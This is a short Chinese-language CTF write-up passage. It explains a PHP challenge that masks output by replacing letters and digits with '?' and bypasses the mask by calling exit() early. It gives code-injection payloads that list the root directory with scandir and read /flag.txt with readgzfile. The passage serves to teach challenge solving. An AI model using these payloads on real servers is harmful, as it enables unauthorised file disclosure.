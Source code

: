 - `$s = ob_get_contents();`：获取输出缓冲区的内容并赋值给变量`s`。输出缓冲区在 PHP 中用于临时存储要输出到浏览器等的内容，以便在合适的时候进行处理或修改。

- `ob_end_clean();`：清空输出缓冲区并关闭它，这样就清除了原始的、未经处理的输出内容，以便后续进行自定义的输出处理。
- `echo preg_replace("/[0-9]|[a-z]/i","?",$s);`：这行代码使用正则表达式对获取到的输出内容（存储在`s`中）进行替换操作。它会将所有的数字和字母（不区分大小写）都替换为`?`，然后将处理后的内容输出到浏览器等输出端。

也就是说这道题会对回显进行处理，让我们没法得到回显

我们可以用exit()/die()提前结束程序，从而不执行后续代码直接进行回显

```
c=var_export(scandir("/"));exit();
```

![image-20241129144431247](../assets/image-20241129144431247.png)

```
c=readgzfile('/flag.txt');exit();
```
